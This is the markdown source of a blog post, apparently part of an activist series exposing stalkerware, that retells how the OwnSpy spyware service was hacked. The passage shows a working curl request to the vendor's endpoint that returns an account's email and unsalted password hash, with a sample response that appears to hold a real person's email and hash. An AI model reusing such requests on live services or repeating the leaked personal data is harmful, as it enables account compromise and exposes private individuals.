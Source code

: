 ```yaml
---
title: "#FuckStalkerware pt. 3 - ownspy got, well, owned"
date: 2023-08-25
description: "more like ownedspy amiright"
feature_image: /img/posts/fuckstalkerware-3/cover.jpg
feature_alt: "screenshot of the start of a file called README.txt, there is big ascii textart reading 'ownedspy', and text below reads 'ownspy is REALLY REALLY owned!!! #fuckstalkerware #antisec #acab' and 'The #fuckstalkerware games continue. Another one bites the dust.'"
tags:
    - "#FuckStalkerware"
    - stalkerware
    - research
    - analysis
    - leak
    - sqli
    - exploit
content_warnings:
    - mentions of abuse/controlling behaviour
---
```


> the intro to this series and the concept of stalkerware can be found [here](/posts/fuckstalkerware-0/)

we continue our series on stalkerware with a write-up and batch of data [sent to me](/contact) by a source last night. this time it is the brazilian [ownspy](https://en.ownspy.com) (aka webdetective and saferspy, by [mobileinnova](http://www.mobileinnova.com)) that has been completely hacked. among other things ownspy claims to be the #1 most privacy focused "parental control app" allegedly featuring E2E encryption, if this sounds too good to be true that's because it mostly is, but more on that later.

![a text box on a landing page reading: The Most Privacy Focused Parental Control App. OwnSpy is the #1 Parental Control App with E2E Encryption. Since its inception OwnSpy started to encrypt everything on the device. Once you register your account a new key is generated and encrypted with your password. This key is stored only on your device so it will be used to encrypt all your data before being uploaded to OwnSpy servers. We do not have and do not want to have access to your data, so we only store this key on your device. In other words: there is no way to access your data without your personal password. As a result, you should never share your password with anyone, not even us. Like us, Apple always believed that your data belongs only to you.](/img/posts/fuckstalkerware-3/privacy-claims.jpg)

(i do also think there is something especially distasteful about reading "your data only belongs to you" on the website for a hidden spyware)

## the technical stuff

the [write-up](/files/posts/fuckstalkerware-3/README.txt) (which most of this section is a paraphrased, and hopefully somewhat simplified, retelling of) starts off with signing up for a free trial and reverse engineering the mobile app. which lead them to fairly quickly find an endpoint called with merely the generated device id which returns the user accounts email address and password hash (unsalted md5):

```bash
curl 'https://6287970dd9.era3000.com/server/?cmd=isreg&id=d41d8cd98f00b204e9800998ecf8427e'
```

```json
{
  "registered": 1,
  "email": "martinsalan578@gmail.com",
  "account_type": "3",
  "tracking": 0,
  "trackingrate": 120,
  "checkrate": 120,
  "userpass": "30d8696be94bed700c6e85f219f7db5b",
[...]
```
